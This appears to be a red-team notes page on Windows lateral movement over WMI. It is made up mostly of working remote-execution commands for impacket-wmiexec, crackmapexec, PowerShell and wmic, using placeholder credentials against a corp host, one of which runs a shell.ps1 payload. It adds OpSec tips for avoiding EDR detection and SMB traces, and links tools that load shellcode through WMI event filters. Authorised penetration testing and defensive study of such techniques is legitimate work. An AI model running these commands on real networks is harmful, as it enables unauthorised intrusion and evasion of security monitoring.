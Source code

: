```yaml
---
title: WMI Lateral Movement
---
```


[[notes/lateral-movement/index]] over [[notes/network/wmi]].

The classic method uses the *Win32_Process* class to execute a command that writes the output to file and download the output via SMB.

=== "[[notes/tools/impacket]]"
    ~~~ bash
    impacket-wmiexec -shell-type powershell -k -no-pass srv01.corp.local
    impacket-wmiexec -shell-type powershell -silentcommand -nooutput -k -no-pass srv01.corp.local "$(< ./shell.ps1)"
    ~~~

    **OpSec:**
    When `-silentcommand` is specified the command is not execute with `cmd.exe`.
    When `-nooutput` is specified the output is not written to a file and no SMB connection is made.

=== "[[notes/tools/crackmapexec]]"
    ~~~ bash
    crackmapexec smb srv01.corp.local -u jdoe -p 'passw0rd' --exec-method wmiexec -x 'whoami /all'
    ~~~

    **OpSec:** Many EDRs detecte the use of `-X`.

=== "PowerShell"
    ~~~ powershell
    $c = New-Object System.Management.Automation.PSCredential -ArgumentList ('jdoe', (ConvertTo-SecureString 'passw0rd' -AsPlainText -Force))
    Invoke-WmiMethod -Credential $c -Class Win32_Process -Name Create -ArgumentList 'whoami /all' -ComputerName srv01.corp.local
    ~~~

=== "builtin"
    ~~~ bat
    wmic.exe /node:srv01.corp.local /user:"corp\jdoe" /password:"passw0rd" process call create "whoami /all 1> C:\Windows\Temp\out.txt 2>&1"
    ~~~

> **Note:**
> If moving laterally over WMI while impersonating a token fails with error 5 you probably run into [The Curious Case of CoInitializeSecurity](https://training.zeropointsecurity.co.uk/courses/take/red-team-ops/texts/38136687-the-curious-case-of-coinitializesecurity).
> Try again from a different process.

Untested tools:

- [PerfExec](https://github.com/0xthirteen/PerfExec), DLL execution trough Performance Monitor, see [Performance, Diagnostics, and WMI](http://web.archive.org/web/20230712054613/https://scribe.rip/@specterops/performance-diagnostics-and-wmi-21f3e01790d3)
- [wmiexec](https://github.com/WKL-Sec/wmiexec/), command execution by creating scheduled task over WMI, no SMB interaction
- [wmiexec-pro](https://github.com/XiaoliChan/wmiexec-Pro), command execution with output retrieval and file upload/download, no SMB interaction
- [LiquidSnake](https://github.com/RiccardoAncarani/LiquidSnake), creates a WMI event filter that executes VBScript that loads a .NET assembly that executes your shellcode

References:

- [No Win32_Process Needed - Expanding the WMI Lateral Movement Arsenal](http://web.archive.org/web/20230131002717/https://www.cybereason.com/blog/wmi-lateral-movement-win32)
- [Windows Lateral Movement Part 1 – WMI Event Subscription](http://web.archive.org/web/20220328104120/https://www.mdsec.co.uk/2020/09/i-like-to-move-it-windows-lateral-movement-part-1-wmi-event-subscription/)
- [Unorthodox lateral movement: Stepping away from standard tradecraft](./unorthodox-lateral-movement.pdf), page 60 ff.
